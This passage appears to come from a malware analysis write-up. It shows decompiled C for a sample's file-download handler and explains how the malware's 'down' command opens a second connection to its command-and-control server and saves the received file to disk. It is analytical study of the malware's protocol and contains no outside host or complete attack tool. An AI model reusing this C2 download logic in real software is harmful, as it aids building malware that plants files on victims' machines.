 ```c
  if ((local_48[0] == '\a') && (local_22 != 0)) {
    __src = (char *)FUN_00103173();
    __modes = (char *)FUN_00102e48(0x11);
    __s = fopen(__src,__modes);
    if (__s == (FILE *)0x0) {
      *(undefined2 *)(param_2 + 4) = 4;
      pvVar1 = malloc((ulong)*(ushort *)(param_2 + 4));
      *(void **)(param_2 + 8) = pvVar1;
      __modes = (char *)FUN_00102e48(0xf);
      strncpy(*(char **)(param_2 + 8),__modes,4);
    }
    else {
      fwrite(local_20,(ulong)local_22,1,__s);
      fclose(__s);
      *(undefined2 *)(param_2 + 4) = 0xc;
      pvVar1 = malloc((ulong)*(ushort *)(param_2 + 4));
      *(void **)(param_2 + 8) = pvVar1;
      strncpy(*(char **)(param_2 + 8),__src,(ulong)*(ushort *)(param_2 + 4));
    }
    free(__src);
  }
  else {
    *(undefined2 *)(param_2 + 4) = 4;
    pvVar1 = malloc((ulong)*(ushort *)(param_2 + 4));
    *(void **)(param_2 + 8) = pvVar1;
    __src = (char *)FUN_00102e48(0x12);
    strncpy(*(char **)(param_2 + 8),__src,4);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

This function makes another connection to the C2 server by calling `FUN_00101399()`, and builds a message with the first byte being `0x6`. We've seen a few different values for this byte throughout our analysis, with `0x1` and `0x2` used in the registration process, `0x3`, `0x4`, and `0x5` in the main loop. Let's consider this value to be a type field, with this function introducing the 6th type. The data in the outgoing message comes from the data being passed into the function (that `memcpy()` at the beginning).

Then, the malware handles the response data from the server, getting the data with a call to `FUN_0010157c()`, and then checking that the first byte is `0x7`. It then saves the data to a file on disk somewhere, with a path generated by `FUN_00103173()`.

At this point, we've learned the following:

* When the malware gets the `down` command, it makes another connection to the server, and includes the filename from the original command sent by the server. The message has type `0x6`.
* The malware saves the response to disk and sends some data back to the server on the original connection to indicate if the transfer succeeded or not.
